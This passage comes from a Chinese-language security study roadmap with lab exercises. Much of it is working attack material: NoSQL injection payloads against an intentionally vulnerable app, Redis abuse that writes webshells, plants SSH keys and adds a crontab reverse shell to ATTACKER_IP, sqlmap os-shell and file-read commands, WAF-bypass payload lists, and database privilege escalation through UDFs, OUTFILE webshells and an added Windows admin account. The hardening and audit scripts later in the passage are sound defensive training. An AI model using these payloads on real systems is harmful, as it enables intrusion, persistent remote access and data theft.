    // 如果username是对象（如 {"$ne": ""}），就会变成MongoDB查询操作符
    const user = await User.findOne({ username, password });
    if (user) {
        res.json({ success: true, role: user.role, user: user.username });
    } else {
        res.json({ success: false });
    }
});

// 漏洞点：$where注入
app.post('/search', async (req, res) => {
    const { query } = req.body;
    const users = await User.find({ $where: `this.username == '${query}'` });
    res.json(users);
});

app.listen(3000);
EOF
```

**攻击练习：**

```javascript
// 攻击1：认证绕过 —— 替换密码为操作符
// 正常登录
{ "username": "admin", "password": "123456" }

// 注入：密码不等于空（任何用户都能匹配）
{ "username": "admin", "password": { "$ne": "" } }

// 注入：密码大于空字符串
{ "username": "admin", "password": { "$gt": "" } }

// 攻击2：用户名枚举
{ "username": { "$regex": ".*" }, "password": { "$ne": "" } }
// 返回所有用户

// 攻击3：$where注入（JavaScript执行）
// 搜索接口
{ "query": "' || '1'=='1" }
// 变成: this.username == '' || '1'=='1'
// 返回所有用户

// 攻击4：时间盲注（$where中使用sleep）
{ "query": "' || (function(){ var start = new Date().getTime(); while(new Date().getTime() - start < 5000){} return true; })() || '" }
```

**防御验证练习：** 修改上面的代码，使其对输入进行类型验证，然后验证攻击是否失效：

```javascript
// 修复后的登录接口
app.post('/login_fixed', async (req, res) => {
    const { username, password } = req.body;
    // 类型检查：确保是字符串
    if (typeof username !== 'string' || typeof password !== 'string') {
        return res.status(400).json({ error: 'Invalid input type' });
    }
    // 长度检查
    if (username.length > 50 || password.length > 100) {
        return res.status(400).json({ error: 'Input too long' });
    }
    const user = await User.findOne({ username, password });
    res.json(user ? { success: true } : { success: false });
});
```

### 4.2 Redis未授权访问

```bash
# 搭建不安全的Redis（无密码、绑定0.0.0.0）
docker run -d --name redis-vuln \
  -p 6379:6379 \
  redis redis-server --bind 0.0.0.0 --protected-mode no

# 1. 信息泄露
redis-cli -h 192.168.1.100 INFO          # 获取服务器信息
redis-cli -h 192.168.1.100 CONFIG GET *   # 获取所有配置
redis-cli -h 192.168.1.100 DBSIZE         # 获取数据库大小
redis-cli -h 192.168.1.100 KEYS *         # 列出所有键

# 2. 写入WebShell
redis-cli -h 192.168.1.100 << EOF
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET x "<?php eval(\$_POST['cmd']); ?>"
SAVE
EOF

# 3. 写入SSH公钥（获取SSH登录权限）
# 攻击机生成密钥对（如果没有）
ssh-keygen -t rsa -f /tmp/redis_rsa -N ""

# 将公钥写入目标
(echo -e "\n\n"; cat /tmp/redis_rsa.pub; echo -e "\n\n") > /tmp/key.txt
cat /tmp/key.txt | redis-cli -h 192.168.1.100 -x SET ssh_key
redis-cli -h 192.168.1.100 CONFIG SET dir /root/.ssh/
redis-cli -h 192.168.1.100 CONFIG SET dbfilename authorized_keys
redis-cli -h 192.168.1.100 SAVE

# SSH登录
ssh -i /tmp/redis_rsa root@192.168.1.100

# 4. 写入Crontab反弹Shell
redis-cli -h 192.168.1.100 << EOF
CONFIG SET dir /var/spool/cron/
CONFIG SET dbfilename root
SET x "\n*/1 * * * * /bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\n"
SAVE
EOF

# 防御验证：配置密码后重新测试以上攻击
redis-cli -h 192.168.1.100 CONFIG SET requirepass "Strong!Redis#2026"
# 再次连接时需要 -a "Strong!Redis#2026"
```

---

## 第五阶段：自动化工具链与效率提升（1-2周）

### 目标

建立完整的渗透测试工具链，能够在真实场景中高效地发现和利用SQL注入漏洞。

### 5.1 Burp Suite实战进阶

```bash
# Intruder爆破练习：批量测试Payload

# 场景：目标使用了关键字过滤，需要测试哪些Payload能绕过
# 1. 将请求发送到Intruder
# 2. 在注入点标记 § 符号
# 3. 设置Payload列表：

# Payload Set 1（绕过空格）:
/**/
%0a
%09
%0b
()

# Payload Set 2（绕过UNION/SELECT）:
UNION/**/SELECT
uniOn%0aseLect
UNION(SELECT)
%55%4E%49%4F%4E%20%53%45%4C%45%43%54
```

### 5.2 自动化注入框架对比

| 工具 | 适用场景 | 优势 | 劣势 |
|------|---------|------|------|
| sqlmap | 通用SQL注入 | 全自动、tamper丰富 | 噪声大、易被WAF检测 |
| Burp Intruder | 定制化爆破 | 灵活可控 | 社区版有速率限制 |
| NoSQLMap | NoSQL注入 | 专门针对MongoDB | 功能相对有限 |
| 自定义Python脚本 | 特殊场景 | 完全可控 | 开发成本高 |

**sqlmap高级用法：**

```bash
# 从Burp导出请求文件进行测试
# 1. 在Burp中右键请求 > Save item > 保存为 request.txt
# 2. 修改request.txt中的参数值为 *
sqlmap -r request.txt --batch --level=3 --risk=2

# --level: 1-5，越高测试越全面（测试更多注入点：cookie、header等）
# --risk: 1-3，越高Payload越激进（可能修改数据库数据）

# OS Shell（获取操作系统命令执行权限）
sqlmap -u "URL" --os-shell

# 读取文件
sqlmap -u "URL" --file-read="/etc/passwd"

# 写入文件
sqlmap -u "URL" --file-write="shell.php" --file-dest="/var/www/html/s.php"

# 自定义tamper组合
sqlmap -u "URL" \
  --tamper=space2comment,randomcase,between \
  --random-agent \
  --delay=1 \
  --threads=5 \
  --batch
```

### 5.3 构建个人Payload字典

一个持续维护的Payload字典是高效渗透的关键资产。

```bash
# 目录结构
mkdir -p ~/payloads/{sql,nosql,xss,lfi}

# SQL注入Payload字典
cat > ~/payloads/sql/injection.txt << 'EOF'
# 字符型闭合测试
'
"
')
")
'))
"))
' OR '1'='1
" OR "1"="1
' OR '1'='1' --
" OR "1"="1" --
' OR 1=1 --
') OR 1=1 --
')) OR 1=1 --
' UNION SELECT NULL --
' UNION SELECT NULL,NULL --
' UNION SELECT NULL,NULL,NULL --
' AND 1=1 --
' AND 1=2 --
' AND ASCII(SUBSTR(database(),1,1))>64 --
' AND SLEEP(5) --
' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
'; WAITFOR DELAY '0:0:5' --
EOF

# WAF绕过Payload
cat > ~/payloads/sql/waf-bypass.txt << 'EOF'
'/**/OR/**/1=1--
'/**/UnIoN/**/SeLeCt/**/1,2,3--
' OR 1=1%0a--
'%0aUNION%0aSELECT%0a1,2,3--
' OR 1=1%09--
'uni%6Fn%20sel%65ct 1,2,3--
' OR (1)=(1)--
' OR 1 LIKE 1--
' OR 1 BETWEEN 0 AND 2--
EOF
```

---

## 第六阶段：数据库提权（1-2周）

### 目标

从Web应用的数据库权限提升到操作系统权限，这是渗透测试中从"Web打点"到"内网漫游"的关键一步。

### 6.1 MySQL提权路径

```sql
-- 1. UDF（用户自定义函数）提权
-- 前提：有FILE权限、MySQL服务以root运行

-- 查看插件目录
SHOW VARIABLES LIKE 'plugin_dir';

-- Linux: 编译UDF共享库
-- 攻击机上：
-- gcc -shared -o udf.so udf.c -fPIC
-- 将udf.so上传到目标的plugin_dir

-- 创建函数
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so';

-- 执行系统命令
SELECT sys_eval('whoami');
SELECT sys_eval('cat /etc/passwd');
SELECT sys_eval('cat /etc/shadow');

-- 清理痕迹
DROP FUNCTION sys_eval;

-- 2. LOAD_FILE / INTO OUTFILE提权
-- 读取敏感文件
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/root/.bash_history');
SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default.conf');

-- 写入WebShell
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';

-- 3. 启动项提权（Windows）
-- 写入bat脚本到启动目录
SELECT 'net user hacker P@ss /add & net localgroup administrators hacker /add'
INTO OUTFILE 'C:/ProgramData/Microsoft/Windows/Start Menu/Programs/Startup/addadmin.bat';
```

### 6.2 PostgreSQL提权

```sql
-- 1. COPY命令执行系统命令（PostgreSQL 9.3及以下）
CREATE TABLE cmd_exec(cmd_output TEXT);
COPY cmd_exec FROM PROGRAM 'whoami';
SELECT * FROM cmd_exec;
DROP TABLE cmd_exec;

-- 2. 大对象（Large Object）写文件
SELECT lo_create(1337);
INSERT INTO pg_largeobject (loid, pageno, data)
VALUES (1337, 0, decode('<?php system($_GET["cmd"]); ?>', 'escape'));
SELECT lo_export(1337, '/var/www/html/shell.php');
SELECT lo_unlink(1337);

-- 3. 扩展库提权（需要超级用户权限）
CREATE EXTENSION adminpack;   -- 管理扩展
CREATE EXTENSION plpython3u;  -- Python扩展
-- 然后可以创建Python函数执行系统命令
```

### 6.3 MongoDB提权

```javascript
// 1. 通过$where执行JavaScript
db.users.find({ $where: "function() {
    // 执行系统命令（需要服务器端MongoDB支持）
    var result = db.adminCommand({getParameter: 1, featureCompatibilityVersion: 1});
    return true;
}" })

// 2. 通过GridFS读写文件
// GridFS可以存储任意大小的文件
var fileId = new ObjectId();
var fileData = new Buffer('<?php system($_GET["cmd"]); ?>');
var gridStore = new GridStore(db, fileId, 'w', {root: 'fs'});
gridStore.open();
gridStore.write(fileData);
gridStore.close();

// 3. 利用备份功能读写文件（mongodump/mongorestore）
```

---

## 第七阶段：安全加固与审计（1-2周）

### 目标

以防御者视角理解安全加固，编写自动化审计脚本。攻防兼备才能成为真正的安全工程师。

### 7.1 MySQL安全加固清单

```sql
-- 完整的MySQL安全加固脚本
-- 保存为 secure_mysql.sql 并执行

-- 1. 删除匿名用户
DELETE FROM mysql.user WHERE User='';
FLUSH PRIVILEGES;

-- 2. 禁止远程root登录
DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');
FLUSH PRIVILEGES;

-- 3. 删除测试数据库
DROP DATABASE IF EXISTS test;
DELETE FROM mysql.db WHERE Db='test' OR Db='test\\_%';
FLUSH PRIVILEGES;

-- 4. 设置密码策略
INSTALL COMPONENT 'file://component_validate_password';
SET GLOBAL validate_password.length = 12;
SET GLOBAL validate_password.mixed_case_count = 1;
SET GLOBAL validate_password.number_count = 1;
SET GLOBAL validate_password.special_char_count = 1;
SET GLOBAL validate_password.policy = MEDIUM;

-- 5. 限制文件操作
-- my.cnf: secure_file_priv = /var/lib/mysql-files/

-- 6. 启用审计日志（MySQL Enterprise / MariaDB）
-- my.cnf:
-- [mysqld]
-- general_log = 1
-- general_log_file = /var/log/mysql/general.log
-- log_error = /var/log/mysql/error.log

-- 7. 设置连接限制
ALTER USER 'app'@'localhost' WITH
    MAX_CONNECTIONS_PER_HOUR 100
    MAX_QUERIES_PER_HOUR 10000
    MAX_USER_CONNECTIONS 10;
```

### 7.2 自动化安全审计脚本

```python
#!/usr/bin/env python3
"""数据库安全审计脚本"""
import mysql.connector
import json
import sys

class MySQLAuditor:
    def __init__(self, host, port, user, password):
        self.conn = mysql.connector.connect(
            host=host, port=port,
            user=user, password=password
        )
        self.cursor = self.conn.cursor()
        self.findings = []

    def check(self, name, severity, condition, detail):
        """通用检查项"""
        if condition:
            self.findings.append({
                'check': name,
                'severity': severity,
                'status': 'FAIL',
                'detail': detail
            })
            print(f"  [!] FAIL: {name} - {detail}")
        else:
            print(f"  [+] PASS: {name}")

    def audit_users(self):
        """审计用户配置"""
        print("\n[*] 审计用户配置...")

        # 检查匿名用户
        self.cursor.execute(
            "SELECT User, Host FROM mysql.user WHERE User=''"
        )
        anon_users = self.cursor.fetchall()
        self.check(
            '匿名用户', 'HIGH',
            len(anon_users) > 0,
            f'存在 {len(anon_users)} 个匿名用户'
        )

        # 检查远程root
        self.cursor.execute(
            "SELECT User, Host FROM mysql.user "
            "WHERE User='root' AND Host NOT IN ('localhost','127.0.0.1','::1')"
        )
        remote_root = self.cursor.fetchall()
        self.check(
            '远程root登录', 'CRITICAL',
            len(remote_root) > 0,
            f'root用户可从 {len(remote_root)} 个远程主机登录'
        )

        # 检查空密码用户
        self.cursor.execute(
            "SELECT User, Host FROM mysql.user "
            "WHERE authentication_string='' OR authentication_string IS NULL"
        )
        empty_pass = self.cursor.fetchall()
        self.check(
            '空密码用户', 'CRITICAL',
            len(empty_pass) > 0,
            f'存在 {len(empty_pass)} 个空密码用户'
        )

        # 检查SUPER权限
        self.cursor.execute(
            "SELECT User, Host FROM mysql.user WHERE Super_priv='Y'"
        )
        super_users = self.cursor.fetchall()
        self.check(
            'SUPER权限用户', 'MEDIUM',
            len(super_users) > 2,
            f'有 {len(super_users)} 个用户拥有SUPER权限（建议仅保留DBA账号）'
        )

    def audit_config(self):
        """审计安全配置"""
        print("\n[*] 审计安全配置...")

        # secure_file_priv
        self.cursor.execute("SHOW VARIABLES LIKE 'secure_file_priv'")
        result = self.cursor.fetchone()
        if result:
            value = result[1]
            self.check(
                '文件操作限制', 'HIGH',
                value == '',
                f'secure_file_priv为空（无限制），建议设置为特定目录或NULL'
            )

        # skip-networking
        self.cursor.execute("SHOW VARIABLES LIKE 'skip_networking'")
        result = self.cursor.fetchone()
        if result and result[1] == 'OFF':
            self.cursor.execute("SHOW VARIABLES LIKE 'bind_address'")
            bind = self.cursor.fetchone()
            if bind and bind[1] == '0.0.0.0':
                self.check(
                    '网络绑定', 'HIGH',
                    True,
                    'MySQL绑定到0.0.0.0（所有接口），建议绑定到127.0.0.1'
                )

        # SSL
        self.cursor.execute("SHOW VARIABLES LIKE 'have_ssl'")
        result = self.cursor.fetchone()
        if result:
            self.check(
                'SSL加密', 'MEDIUM',
                result[1] != 'YES',
                'SSL未启用，建议配置TLS加密连接'
            )

    def audit_databases(self):
        """审计数据库"""
        print("\n[*] 审计数据库...")

        # 测试数据库
        self.cursor.execute("SHOW DATABASES")
        dbs = [r[0] for r in self.cursor.fetchall()]
        test_dbs = [db for db in dbs if 'test' in db.lower()]
        self.check(
            '测试数据库', 'LOW',
            len(test_dbs) > 0,
            f'存在测试数据库: {test_dbs}'
        )

    def run(self):
        """执行完整审计"""
        print("=" * 50)
        print("MySQL安全审计报告")
        print("=" * 50)

        self.audit_users()
        self.audit_config()
        self.audit_databases()

        # 汇总
        critical = sum(1 for f in self.findings if f['severity'] == 'CRITICAL')
        high = sum(1 for f in self.findings if f['severity'] == 'HIGH')
        medium = sum(1 for f in self.findings if f['severity'] == 'MEDIUM')
        low = sum(1 for f in self.findings if f['severity'] == 'LOW')

        print("\n" + "=" * 50)
        print(f"审计完成: CRITICAL={critical} HIGH={high} MEDIUM={medium} LOW={low}")
        print(f"总发现: {len(self.findings)} 项问题")
        print("=" * 50)

        return self.findings


if __name__ == '__main__':
    auditor = MySQLAuditor(
        host='localhost', port=3306,
        user='root', password='root123'
    )
    findings = auditor.run()

    # 输出JSON报告
    with open('audit_report.json', 'w') as f:
        json.dump(findings, f, indent=2, ensure_ascii=False)
    print("\n报告已保存到 audit_report.json")
```

### 7.3 Redis安全加固

```bash
# Redis安全加固检查脚本
cat > redis_audit.sh << 'SCRIPT'
#!/bin/bash
# Redis安全审计脚本

REDIS_HOST="${1:-127.0.0.1}"
REDIS_PORT="${2:-6379}"
REDIS_PASS="${3:-}"

AUTH_CMD=""
if [ -n "$REDIS_PASS" ]; then
    AUTH_CMD="-a $REDIS_PASS"
fi

echo "=== Redis安全审计 ==="
echo "目标: $REDIS_HOST:$REDIS_PORT"
echo ""

# 1. 检查是否需要密码
PASS_REQUIRED=$(redis-cli -h $REDIS_HOST -p $REDIS_PORT $AUTH_CMD CONFIG GET requirepass 2>/dev/null | tail -1)
if [ "$PASS_REQUIRED" = '""' ] || [ -z "$PASS_REQUIRED" ]; then
    echo "[!] CRITICAL: Redis未设置密码"
else
    echo "[+] Redis已设置密码"
fi

# 2. 检查绑定地址
BIND=$(redis-cli -h $REDIS_HOST -p $REDIS_PORT $AUTH_CMD CONFIG GET bind 2>/dev/null | tail -1)
if echo "$BIND" | grep -q "0.0.0.0"; then
    echo "[!] HIGH: Redis绑定到0.0.0.0，可从任意IP访问"
else
    echo "[+] Redis绑定地址: $BIND"
fi

# 3. 检查protected-mode
PROTECTED=$(redis-cli -h $REDIS_HOST -p $REDIS_PORT $AUTH_CMD CONFIG GET protected-mode 2>/dev/null | tail -1)
if [ "$PROTECTED" = "no" ]; then
    echo "[!] HIGH: protected-mode已关闭"
else
    echo "[+] protected-mode已开启"
fi

# 4. 检查危险命令
for CMD in FLUSHALL FLUSHDB CONFIG DEBUG SHUTDOWN KEYS; do
    RENAME=$(redis-cli -h $REDIS_HOST -p $REDIS_PORT $AUTH_CMD CONFIG GET "rename-command $CMD" 2>/dev/null | tail -1)
    if [ -z "$RENAME" ] || [ "$RENAME" = '""' ]; then
        echo "[!] MEDIUM: 危险命令 $CMD 未被重命名"
    else
        echo "[+] 命令 $CMD 已重命名"
    fi
done

# 5. 检查是否可写入文件
redis-cli -h $REDIS_HOST -p $REDIS_PORT $AUTH_CMD CONFIG SET dir /tmp 2>/dev/null
if [ $? -eq 0 ]; then
    echo "[!] HIGH: 可修改dir配置，存在文件写入风险"
else
    echo "[+] 无法修改dir配置"
fi

echo ""
echo "=== 审计完成 ==="
SCRIPT
chmod +x redis_audit.sh
```

---

## 第八阶段：CTF实战与综合演练（持续）

### 目标

通过CTF比赛和综合靶场检验全部所学，培养在时间压力下快速定位和利用漏洞的能力。

### 8.1 CTF数据库类题目解题策略

```text
数据库类CTF题目解题框架：

1. 信息收集
   ├── 识别数据库类型（MySQL/MSSQL/PostgreSQL/SQLite/MongoDB）
   ├── 判断注入点（GET/POST/Cookie/Header）
   └── 判断闭合方式（数字型/字符型/括号包裹）

2. 判断回显类型
   ├── 有回显 → UNION注入（最快）
   ├── 有报错 → 报错注入（次快）
   ├── 无回显无报错 → 布尔盲注
   └── 完全无差异 → 时间盲注

3. 提取数据
   ├── 数据库名 → 表名 → 列名 → 数据（标准四步）
   └── 注意flag可能藏在：特定表、文件系统、环境变量

4. 特殊场景
   ├── 过滤绕过 → 大小写/编码/注释/替代关键字
   ├── 限制字符数 → 分段拼接
   ├── 限制关键字 → 堆叠注入/子查询嵌套
   └── WAF → tamper/编码/HTTP参数污染
```

### 8.2 推荐练习平台

| 平台 | URL | 特点 | 难度 | 推荐度 |
|------|-----|------|------|--------|
| SQLi-labs | GitHub | SQL注入专项，27+关卡 | 入门-进阶 | ★★★★★ |
| DVWA | GitHub | 综合Web安全，含SQLi模块 | 入门 | ★★★★☆ |
| PortSwigger Labs | portswigger.net | 最专业的Web安全实验室 | 入门-专家 | ★★★★★ |
| Hack The Box | hackthebox.com | 真实环境渗透测试 | 进阶-专家 | ★★★★☆ |
| TryHackMe | tryhackme.com | 引导式学习路径 | 入门-进阶 | ★★★★☆ |
| SQLZoo | sqlzoo.net | SQL基础练习 | 入门 | ★★★★☆ |
| OverTheWire Natas | overthewire.org | Web安全挑战 | 入门-进阶 | ★★★☆☆ |
| picoCTF | picoctf.org | 教育型CTF平台 | 入门 | ★★★★☆ |

### 8.3 持续练习计划

```text
每日练习节奏（建议3-4小时）：

┌──────────────┬─────────────────────────────────┬──────────┐
│ 时间段        │ 内容                             │ 时长     │
├──────────────┼─────────────────────────────────┼──────────┤
│ 上午          │ 理论学习：阅读一种新注入技术       │ 1小时    │
│ 下午          │ 动手练习：在靶场上实操该技术        │ 2小时    │
│ 晚上          │ 总结复盘：记录Payload和心得        │ 30分钟   │
│ 周末          │ CTF比赛或综合靶场练习             │ 3-4小时  │
└──────────────┴─────────────────────────────────┴──────────┘

每周目标：
- 完成5道以上注入题目（从不同平台）
- 编写1个自动化脚本（盲注/爆破/检测）
- 更新Payload字典（新增有效Payload）

每月目标：
- 参加1次CTF比赛（至少解出Web类题目）
- 完成1个综合渗透项目（从信息收集到提权）
- 阅读1篇CVE漏洞分析报告
- 写1篇技术博客总结所学
```

### 8.4 学习路线决策树



---

## 常见练习误区

### 误区一：只用sqlmap不学手动注入

**问题：** 初学者一上来就用sqlmap，遇到WAF或特殊场景时完全不知道怎么处理。

**正确做法：** 先手动完成SQLi-labs前10关，理解每种注入的原理和Payload构造逻辑，再使用sqlmap提高效率。手动注入是"理解"，sqlmap是"执行"——没有理解的执行是盲目的。

### 误区二：只练习MySQL

**问题：** 只在MySQL上练习，遇到MSSQL、PostgreSQL、Oracle时束手无策。

**正确做法：** 至少熟悉MySQL和PostgreSQL两种数据库的注入差异。MSSQL的 `xp_cmdshell`、Oracle的 `UTL_HTTP`、PostgreSQL的 `COPY FROM PROGRAM` 都是各自独有的攻击面。

### 误区三：忽略防御侧

**问题：** 只学攻击不学防御，在实际工作中无法给出有效的安全建议。

**正确做法：** 每学一种注入技术，同时学习对应的防御方法。能攻能守才是完整的安全能力。

### 误区四：练习环境不隔离

**问题：** 在联网机器上练习注入工具，可能误伤他人或触犯法律。

**正确做法：** 始终在Docker容器或虚拟机中搭建靶场环境，确保网络隔离。练习工具时只对 `localhost` 或已授权的目标操作。

---

## 推荐书单与深度学习资源

| 资源 | 类型 | 内容覆盖 | 推荐度 |
|------|------|---------|--------|
| 《SQL注入攻击与防御》(Clarke) | 书籍 | SQL注入全面深入 | ★★★★★ |
| 《黑客攻防技术宝典：Web实战篇》 | 书籍 | Web安全综合（含SQLi） | ★★★★★ |
| 《Web应用安全权威指南》(Stuttard) | 书籍 | Burp Suite + 渗透测试 | ★★★★★ |
| 《数据库系统概念》(Silberschatz) | 书籍 | 数据库原理（理解底层） | ★★★★☆ |
| PortSwigger Research Blog | 博客 | 最新的注入技术和绕过方法 | ★★★★★ |
| OWASP Testing Guide | 指南 | Web安全测试标准流程 | ★★★★★ |

***

> "安全领域的练习不是重复，而是刻意。每道题都要问自己：这个Payload为什么有效？换个环境还有效吗？怎样才能让它失效？"
